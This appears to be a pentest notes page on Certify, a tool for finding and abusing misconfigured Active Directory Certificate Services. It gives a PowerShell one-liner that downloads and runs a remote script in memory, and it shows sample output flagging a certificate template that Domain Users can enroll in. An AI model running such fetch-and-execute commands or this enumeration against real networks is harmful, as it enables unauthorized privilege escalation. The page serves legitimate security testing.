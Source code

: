```yaml
---
title : "Certify"
# pre : ' '
description : "Active Directory certificate abuse."
date : 2022-01-19T21:26:13+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Other', 'Active Directory', 'ADCS']
---
```


## Certify

Certify is a C# tool to enumerate and abuse misconfigurations in Active Directory Certificate Services (AD CS).

[@harmj0y](https://twitter.com/harmj0y) and [@tifkin_](https://twitter.com/tifkin_) are the primary authors of Certify and the the associated AD CS research ([blog](https://posts.specterops.io/certified-pre-owned-d95910965cd2) and [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf)).

## Installation

Please compile the `.exe` yourself or use the PowerShell script below. The examples will use the PowerShell implementation.

```plain
iex((iwr https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Certify.ps1).content)
```

## Examples

### Identify vulnerable PKIs

```plain
PS Z:\> Invoke-Certify -Command 'find /vulnerable'

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=offsec,DC.nl'

[*] Listing info about the Enterprise CA 'offsec-DC01PKI-CA'

    Enterprise CA Name            : offsec-DC01PKI-CA
    DNS Hostname                  : DC01PKI.offsec.nl
    FullName                      : DC01PKI.offsec.nl\offsec-DC01PKI-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=offsec-DC01PKI-CA, DC=offsec, DC.nl
    Cert Thumbprint               : 2CFF52459C3F6C9BD541FDDAF3CC6F0EA72671CC
    Cert Serial                   : 1C0000000565446F3BBD81156A000000000005
    Cert Start Date               : 12/20/2021 6:34:12 AM
    Cert End Date                 : 12/20/2026 6:44:12 AM
    Cert Chain                    : CN=DC01PKI-N1-CA -> CN=offsec-DC01PKI-CA,DC=offsec,DC.nl
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Allow  Enroll                                     NT AUTHORITY\Authenticated Users S-1-5-11
      Allow  Read, Enroll                               NT AUTHORITY\NETWORK SERVICE  S-1-5-20
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
      Allow  ManageCA, ManageCertificates               offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
    Enrollment Agent Restrictions : None

[!] Vulnerable certificate templates that exist but an Enterprise CA does not publish:

    ConfigMgrWebServerCertificate


[!] Vulnerable Certificates Templates :

    CA Name                         : DC01PKI.offsec.nl\offsec-DC01PKI-CA
    Template Name                   : UsersOffsecAD
    Schema Version                  : 2
    Validity Period                 : 1 year
    Renewal Period                  : 6 weeks
    msPKI-Certificates-Name-Flag    : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag           : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required  : 0
    pkiextendedkeyusage             : Client Authentication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Domain Users       S-1-5-21-497837788-612300594-3587273769-513
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
      Object Control Permissions
        Owner                       : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
        WriteOwner Principals       : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
                                      offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
        WriteDacl Principals        : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
                                      offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
        WriteProperty Principals    : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
                                      offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519

C3rt1fy completed in 00:00:01.1902168
```

## URL List

* [Github.com - Certify](https://github.com/GhostPack/Certify)
* [Github.com - Certipy](https://github.com/ly4k/Certipy)
